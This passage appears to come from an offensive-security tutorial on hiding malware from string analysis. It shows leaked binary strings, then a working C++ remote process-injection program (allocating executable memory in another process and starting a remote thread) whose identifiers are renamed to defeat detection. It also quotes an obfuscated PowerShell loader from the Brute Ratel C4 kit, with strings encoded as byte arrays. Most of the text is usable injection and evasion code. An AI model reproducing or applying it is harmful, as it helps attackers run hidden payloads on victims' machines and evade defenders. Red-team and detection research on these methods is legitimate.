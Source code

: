 ```
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```

Notice that all of the iostream was written to strings, and even the shellcode byte array was leaked. This is a smaller program, so imagine what a fleshed-out and un-obfuscated program would look like!

We can remove comments and replace the meaningful identifiers to resolve this problem.

```
#include "windows.h"

int main(int argc, char* argv[])
{
    unsigned char awoler[] = "";

    HANDLE awerfu;
    HANDLE rwfhbf;
    PVOID iauwef;

    awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
    rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
    CloseHandle(awerfu);

    return 0;
}
```

We should no longer have any identifiable string information, and the program is safe from string analysis.

As an example for an interpreted language we can observe the deprecated [Badger PowerShell loader](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1) from the [BRC4 Community Kit](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit).

```
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
[Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50)
[Byte[]] $Moo5y = @(0x38, 0x64, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50, 0x3f, 0x64, 0x5b, 0x50)
[Byte[]] $ooR5o = @(0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x3e, 0x50, 0x4c, 0x57, 0x50, 0x4f, 0x17, 0x0b, 0x2c, 0x59, 0x5e, 0x54, 0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x2c, 0x60, 0x5f, 0x5a, 0x2e, 0x57, 0x4c, 0x5e, 0x5e)
[Byte[]] $Reo5o = @(0x3d, 0x60, 0x59, 0x5f, 0x54, 0x58, 0x50, 0x17, 0x0b, 0x38, 0x4c, 0x59, 0x4c, 0x52, 0x50, 0x4f)
```